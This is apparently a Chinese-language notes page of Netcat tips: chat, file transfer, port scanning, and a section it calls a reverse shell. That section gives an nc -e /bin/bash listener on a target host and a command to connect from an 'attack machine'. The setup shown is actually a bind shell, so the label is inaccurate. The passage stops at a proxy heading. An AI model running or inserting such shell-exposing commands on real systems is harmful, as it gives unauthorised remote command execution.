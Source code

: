 如果你想要查看一个符号链接所指向的实际文件，可以使用`ls`命令，例如：

```bash
ls -l /path/to/your/symlink
```

这将显示符号链接指向的实际文件路径。

## nc 使用技巧

Netcat（`nc`）是一个非常强大且灵活的工具，可以用于各种网络连接、数据传输和调试任务。以下是一些在使用 Netcat 时的一些技巧和用法：

1. **简单聊天：**
   Netcat 可以用于在终端之间进行简单的聊天，如下所示：

   在一台机器上启动监听模式：
   ```bash
   nc -l <port>
   ```

   在另一台机器上与其进行连接：
   ```bash
   nc <hostname> <port>
   ```

2. **文件传输：**
   使用 Netcat 可以在两台计算机之间传输文件。在发送端运行 `nc` 命令，而在接收端使用 `nc` 命令监听端口并保存传输的数据，如下所示：

   发送文件：
   ```bash
   nc -w 3 <receiver_ip> <port> < file_to_send
   ```

   接收文件：
   ```bash
   nc -l <port> > received_file
   ```

3. **反向 shell：**
   使用 Netcat 可以创建反向 shell 连接，允许你在远程主机上执行命令，如下所示：

   在目标主机上启动监听模式：
   ```bash
   nc -l -p <port> -e /bin/bash
   ```

   在攻击机上与目标主机建立连接：
   ```bash
   nc <target_ip> <port>
   ```

4. **端口扫描：**
   Netcat 可以用于进行基本的端口扫描，以检查目标主机上的哪些端口是开放的，如下所示：

   扫描前 1000 个端口：
   ```bash
   nc -zv <hostname> 1-1000
   ```

5. **代理和端口转发：**
   Netcat 可以用于创建简单的代理服务器或端口转发，如下所示：
